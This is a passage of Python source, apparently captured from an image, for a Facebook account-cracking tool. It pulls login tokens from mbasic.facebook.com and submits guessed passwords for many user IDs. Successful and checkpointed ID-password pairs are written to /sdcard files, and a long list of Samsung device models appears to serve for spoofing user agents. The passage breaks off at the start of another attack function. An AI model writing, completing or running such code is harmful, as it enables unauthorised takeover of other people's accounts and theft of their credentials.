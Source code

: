                         idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Aking=session.cookies.get_dict().keys()
                        if "c_user" in Aking:
                                coki=session.cookies.get_dict()
                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print('\r\r\033[1;32m [BHT-OK] %s | %s'%(ids,pas))
                                open('/sdcard/BHT-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Aking:
                                if 'y' in pcp:
                                        print('\r\r\x1b[38;5;208m [BHT-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/BHT-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
xxxxx=("GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
def api(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [JALIIIL-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except: